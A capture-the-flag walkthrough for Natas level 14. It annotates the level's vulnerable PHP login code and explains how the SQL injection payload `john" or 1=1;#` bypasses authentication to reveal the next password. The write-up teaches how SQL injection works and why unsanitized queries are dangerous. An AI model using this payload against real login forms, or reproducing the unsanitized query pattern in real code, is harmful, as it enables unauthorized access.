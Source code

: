 # Level 14
This level deals with  SQL Injection Vulnerability

## Quest
We are presented with a simple sign in form
![Level 14 Image](./images/Level14.png)

Backend code for the page is below, Lets comment it
```php
<?
if(array_key_exists("username", $_REQUEST)) {  // Checks if username parameter exists in request
    $link = mysql_connect('localhost', 'natas14', '<censored>'); // Connect to db
    mysql_select_db('natas14', $link);
    
    // A query is run based on user input, no sanitization performed. Bad Practise !!
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {  // if 'debug' parameter is set, output query
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If our query return any rows, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {  // Else, Access Denied
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

## Solution
Before going into the solution, lets look at the request that is sent when we log in. (_captured in Burp_)
![Level 14 Solution](./images/Level14_solution.png)

Let look at this line :
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

If we enter both username and password as `admin`, our resulting query becomes:
```sql
SELECT * from users where username="admin" and password = "admin";
```
If above query produces any output (rows), then we log in, otherwise we get access denied.

Now, in order to do SQL injection we enter a basic <span id=green>payload -></span> `john" or 1=1;#`
Our query becomes
```sql
SELECT * from users where username="john" or 1=1;#" and password="";
```
Note: Above query is now reduced to
```sql
SELECT * from users where username="john" or 1=1;
```
`#` is a comment in mysql and anything after it is ignored.<br/>This will always produce an output as long as there are rows in `users` table because `1=1` is always true.

From Backend code:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If we found any table, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    }
```
As now our query will produce an output, password for next Level will be revealed.

Below see this in action, our request/response in Burp along with our payload. (_it has been URL encoded_)
![Level14.1_solution](./images/Level14.1_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
